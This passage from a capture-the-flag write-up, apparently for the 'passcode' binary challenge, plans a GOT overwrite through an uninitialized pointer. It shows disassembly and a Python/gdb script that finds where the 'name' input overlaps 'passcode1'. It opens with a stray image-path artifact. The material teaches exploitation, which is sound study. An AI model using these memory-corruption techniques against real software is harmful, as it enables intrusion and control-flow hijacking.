 ```
=> 0x08048430 <+0>:     jmp    *0x804a004
```

So, we just need to modify `0x804a004` to be the address in `login` we want to return to. Now, we just need to figure out what part of `name` overlaps with `passcode1`. There are many ways to do it (read the disassembly and manually look at the stack frames, guess and check (using gdb), etc...), but I'll do a cute solution that uses `python` to do a binary search using `gdb`.

First, note that in a dynamic analysis, we can get the value of `passcode1` by looking at `-0x10(%ebp)` at `0x804858b` (or really anywhere after we `mov %esp, %ebp` in `login`).

```
 804857c:       8b 55 f0                mov    -0x10(%ebp),%edx
 804857f:       89 54 24 04             mov    %edx,0x4(%esp)
 8048583:       89 04 24                mov    %eax,(%esp)
 8048586:       e8 15 ff ff ff          call   80484a0 <__isoc99_scanf@plt>
 804858b:       a1 2c a0 04 08          mov    0x804a02c,%eax
```

```python
# Saved as find.py
import subprocess

gdb_commands = b"""
break *0x804858b
commands
x/wx $ebp - 0x10
end
run
""".lstrip()

lo = 0
hi = 200
while lo < hi:
    mid = (lo + hi) // 2
    out = subprocess.run(
        ["gdb", "passcode"],
        stdout=subprocess.PIPE,
        input=gdb_commands + b"a"*mid + b"\n"
    ).stdout.decode().splitlines()
    out = iter(out)
    for line in out:
        if line.startswith("Breakpoint 1"):
            val = next(out).split()[1]
            if val == "0x61616161":
                hi = mid
            else:
                lo = mid + 1
            break
    else:
        print(f"Did not find val when using {mid} a's")
        exit(1)

print(f"Overwritten completely at {lo} a's")
```


[^1]: Interestingly, although `clangd` tells me about the problem with the 3rd `scanf` call (off-by-one on the buffer size), `gcc` did not report it (I have not yet investigated whether fixing the first two errors lets it report the third).